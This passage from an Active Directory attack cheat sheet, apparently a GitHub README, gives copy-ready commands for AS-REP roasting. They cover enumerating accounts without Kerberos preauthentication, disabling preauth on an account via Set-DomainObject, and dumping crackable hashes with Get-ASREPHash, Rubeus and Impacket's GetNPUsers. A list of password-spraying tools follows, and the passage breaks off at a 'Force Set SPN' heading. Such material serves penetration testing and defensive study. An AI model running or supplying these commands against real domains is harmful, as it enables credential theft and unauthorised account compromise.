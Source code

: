   - PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
  - AD Module: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`


  Forcefully Disable Kerberos Preauth on an account i have Write Permissions or more!
  Check for interesting permissions on accounts:
  
  
  **Hint:** We add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!
  
  PowerView:
  ```
  Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
  Disable Kerberos Preauth:
  Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
  Check if the value changed:
  Get-DomainUser -PreauthNotRequired -Verbose
  ```

  And finally execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.
  ```
  #Get a spesific Accounts hash:
  Get-ASREPHash -UserName <UserName> -Verbose

  #Get any ASREPRoastable Users hashes:
  Invoke-ASREPRoast -Verbose
  ```

  Using Rubeus:
  ```
  #Trying the attack for all domain users
  Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
  
  #ASREPRoast spesific user
  Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
  
  #ASREPRoast users of a spesific OU (Organization Unit)
  Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
  ```

  Using Impacket:
  ```
  #Trying the attack for the specified users on the file
  python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
  ```
### Password Spray Attack
  If we have harvest some passwords by compromising a user account, we can use this method to try and exploit password reuse 
  on other domain accounts.

  **Tools:**
  - [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
  - [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
  - [Spray](https://github.com/Greenwolf/Spray)
### Force Set SPN
